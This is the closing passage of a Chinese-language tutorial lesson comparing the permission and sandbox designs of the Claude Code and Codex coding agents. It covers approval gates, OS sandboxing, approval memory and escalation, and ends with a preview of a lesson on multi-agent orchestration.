| ⑥ 沙箱机制 | 委托 `@anthropic-ai/sandbox-runtime`；macOS seatbelt、Linux bwrap+socat | `SandboxType` 按平台：mac `sandbox-exec`+deny-default SBPL;Linux `codex-linux-sandbox`（bwrap 命名空间 + seccomp 封 syscall）；Windows 受限令牌 | OS 强制隔离；可写根里 `.git`/配置目录挖只读 |
| ⑦ 沙箱即不打断 | `autoAllowBashIfSandboxed`（默认 true）：沙箱住的 bash 跳过 ask | 默认档非危险命令在受限沙箱直接放行；`OnFailure` 全自动批+沙箱跑 | 能被沙箱安全约束的命令别再弹窗——前提是沙箱真拦得住 |
| ⑧ 审批记忆 | onAllow 带 PermissionUpdate：一次=[]、永久=local/project/user settings 落盘 | `ReviewDecision`:Approved/ApprovedForSession（内存）/ApprovedExecpolicyAmendment（写 default.rules）/Abort… | 一次/本会话/永久三答法，落点不同且透明可撤 |
| ⑨ 升级与扩展 | hook PreToolUse(allow/deny/ask);**hook allow 盖不过 deny/ask 规则** | **沙箱失败升级**（OnFailure/UnlessTrusted 问"出盒子吗"、Never/OnRequest 退回）；Guardian LLM 审批层；hook 在 Guardian/用户前 | 沙箱失败按档升级；扩展点能加严不能解硬限 |

总结：权限体系的灵魂是**两道正交的闸——"准不准跑（approval）" + "跑起来能碰什么（sandbox）"**，以及一个反直觉但关键的配合：**沙箱不只是兜底，更是用 OS 隔离换取"少打断用户"**。claude 把判定做成一条 deny 优先、留硬例外的十步流水线 + 后加的可选沙箱；codex 把判定做成审批策略×沙箱的矩阵 + 一等公民的沙箱 + "先在盒子里试、失败再升级问"的优雅升级流。**deepseek 是会自动改用户代码、自动跑命令的桌面 coding agent，这两道闸是"敢让 agent 自动动手"的前提**——尤其要抄 codex 的三件套：默认上沙箱、能在沙箱里安全跑的就别问、沙箱挡不住的才升级问你。

## 下一课

到这里，单个 agent 的核心机制（主循环、工具、压缩、记忆、持久化/回滚、权限/沙箱）已经全部铺完。接下来主线要从"一个 agent"扩到"多个 agent 协作":**主 agent 怎么派子 agent、子 agent 的上下文怎么隔离、产出怎么收回、多个 agent 之间怎么通信与编排**（claude 的 Task/subagent + SQ/EQ、codex 的 agent graph / inter-agent communication——第 5 课 rollout 里那个 `inter_agent_communication` 变体就是为它留的）。这就是第 7 课「多 agent 编排与子 agent」要讲的。
